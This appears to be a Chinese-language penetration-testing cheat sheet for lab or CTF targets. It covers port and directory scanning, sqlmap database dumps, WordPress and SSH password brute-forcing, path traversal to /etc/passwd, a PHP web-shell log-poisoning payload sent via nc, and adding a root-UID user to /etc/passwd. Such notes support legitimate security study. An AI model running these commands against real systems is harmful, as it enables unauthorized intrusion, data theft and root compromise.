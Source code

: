 ## Nmap
经典。扫描端口
```
nmap -p- -A -sC -sV 192.168.1.1 -VV -T5 //nmap常规扫描

sudo nmap -sU -sV -vv -oA quick_udp 192.168.200.149 //UPD扫描

sudo nmap -sS -sV -A -n 192.168.246.209

nmap -p 22 192.168.246.209 // 单扫端口
```
## Rustscan
扫描端口。***可能会扫漏，可以过几分钟再扫一次***
```
rustscan -a 192.168.152.72 --range 1-65535

rustscan -a 192.168.216.223 --range 1-65535 --ulimit 5000 -- -A
```
## Dirsearch
扫描目录。
```
dirsearch -u 192.168.216.223
```
## Dirb
扫描目录
```
dirb http://192.168.216.223 /usr/share/wordlists/dirb/big.txt
```
## Gobuster
扫描目录
```shell
gobuster dir -u 192.168.232.72:8593 -w /usr/share/wordlists/dirb/big.txt --no-error
```

中级字典，加上 `.zip` 后缀
```shell
gobuster dir -u http://192.168.237.219 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .zip
```
## Sqlmap
```
sqlmap -u http://192.168.152.72:8593/index.php?book=list
```

## Curl
查看响应头
```
curl -I 192.168.152.72
```

修改 UA (User-Agent)
```
sudo curl -s --user-agent GoogleBot http://192.168.225.14/robots.txt -v
```

`-v` verbose ，显示详细内容

发送 POST 请求
```
curl -X POST "http://139.224.130.183:32960/" -d "c=1024abc"
```

设置 Cookie
```
curl -b "session_id=123456" https://example.com
```

用 curl 修改X-Forwarded-For头
```
curl -H "X-Forwarded-For: 123.45.67.89" http://example.com
```

修改 Referer 头
```
curl -H "Referer: http://example.com" http://example.org
```
## Nc
`nc` 传小马，配合日志投毒
```
nc 192.168.218.72 80

GET /<?php system($_GET['cmd']); ?>
```

`nc`监听端口 4444
```
nc -nvlp 4444
```
## Wpscan
一款专门用来检测 CMS `Wordpress` 的软件

枚举用户名
```
wpscan --url http://loly.lc/wordpress/ --enumerate u
```

根据用户名爆破密码
```
wpscan --url http://loly.lc/wordpress -U loly -P /usr/share/wordlists/rockyou.txt
```

枚举用户名，插件，再进行密码爆破
```
wpscan --url http://funbox.fritz.box/ -e ap,u  --passwords /usr/share/wordlists/rockyou.txt
```

枚举(enumerate)插件(plugin)，主题(theme)，用户(user)
```
wpscan --url http://dc-2 -e p,t,u
```
## Cewl
Collect wordlist

抓取网站内容，提取出其中的单词，放入 `passwd` 文件中，如果没有这个文件，就创建。一般递归深度为 2 ，即抓取网站首页及链接的页面
```
cewl http://dc-2/ > password
```
## Sqlmap
POST 传参注入
用 `bp` 将请求包抓下来，然后
```
sqlmap -r search.txt
```

爆库
```
sqlmap -r search.txt --dbs
```

爆表
```
sqlmap -r search.txt -D <database> --tables
```

爆字段
```
sqlmap -r search.txt -D <database> -T <table> --columns
```

爆数据
```
sqlmap -r search.txt -D <database> -T <table> -C <column1,column2> --dump-all
```
## Wfuzz
```
wfuzz --hh 1341 -b "PHPSESSID=v83ig9f6u10pc2h1ht8cvvrn76" -c -w /usr/share/ wordlists/wfuzz/general/common.txt http://192.168.246.209/manage.php?FUZZ =../../../../../../../../etc/passwd
```
## Hydra
曾经有过扫不出来的经历。。。
```
hydra -L username.txt -P passwd.txt ssh://192.168.84.130
```
## Find
```
find / -name test.py 2>/dev/null 
```
## Openssl
通常用于创建 `/etc/passwd` 文件中存储的加密密码。
```
openssl passwd -1 -salt passion 123456
```
这条命令将输出一个使用 MD5 加密并带有盐值 `haruhi` 的加密密码。输出的格式通常是
这种生成的加密密码可以用在一些系统认证配置中，例如 Linux 系统的 `/etc/shadow` 文件中保存用户的密码信息。
配合 `/etc/passwd` 食用更佳
```
echo 'passion:$1$passion$6B1Neow110enwwaaEaWQs.:0:0::/root:/bin/bash' > passion
```

